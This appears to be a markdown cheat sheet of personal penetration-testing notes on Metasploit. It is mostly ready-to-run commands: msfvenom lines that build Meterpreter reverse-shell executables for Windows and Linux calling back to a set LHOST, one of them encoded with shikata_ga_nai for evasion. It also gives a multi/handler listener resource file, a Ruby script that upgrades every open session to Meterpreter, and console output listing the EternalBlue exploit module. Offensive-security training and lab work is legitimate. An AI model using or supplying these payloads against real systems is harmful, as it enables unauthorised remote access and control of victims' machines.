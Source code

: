 ```yaml
---
title: Metasploit
description: Metasploit guide.
---
```


# Metasploit

## Msfvenom

List payload : `msfvenom --list payload`

```bash
# Windows (EXE)
$ msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.9.52.138 LPORT=9001 -f exe -o shell.exe

# Windows (x86 EXE with encoder)
$ msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.9.52.138 LPORT=9001 -f exe -o shell.exe

# Linux (ELF)
$ msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=10.9.52.138 LPORT=9001 -f elf -o shell.bin
```

- `staged` : 2 parts, a listener, then the reverse shell is send to the listener.
- `stageless` : Reverse shell is directly inside the payload.

## Ressource file

File `listener.rc` :

```
use exploit/multi/handler
set LHOST tun0
set LPORT 9001
set payload windows/x64/meterpreter_reverse_tcp
exploit -j
```

Command : `msfconsole -r listener.rc`

---

Use `ruby` inside ressource file.

```
msf6 > resource shell2meterpreter.rc
[*] Processing /tmp/shell2meterpreter.rc for ERB directives.
[*] resource (/tmp/shell2meterpreter.rc)> Ruby Code (165 bytes)
```

File `shell2meterpreter.rc` :

```ruby
<ruby>
framework.sessions.each_pair do |sid, session|
  run_single("use post/multi/manage/shell_to_meterpreter")
  run_single("set SESSION #{sid}")
  run_single("run")
end
</ruby>
```

## Favorites

Add module to favorites :

```
msf6 exploit(multi/handler) > favorite
[+] Added exploit/multi/handler to the favorite modules file
```

Show favorites :

```
msf6 > show favorites

Favorites
=========

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/multi/handler                                      manual   No     Generic Payload Handler
   1  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
```

Delete a favorite :

```
msf6 > favorite -d exploit/multi/handler
[*] Removing exploit/multi/handler from the favorite modules file
```

## Modules

### shell_to_meterpreter

```
msf6 > use post/multi/manage/shell_to_meterpreter
msf6 post(multi/manage/shell_to_meterpreter) > set session 1
session => 1
msf6 post(multi/manage/shell_to_meterpreter) > set LPORT 4445
LPORT => 4445
msf6 post(multi/manage/shell_to_meterpreter) > run
```
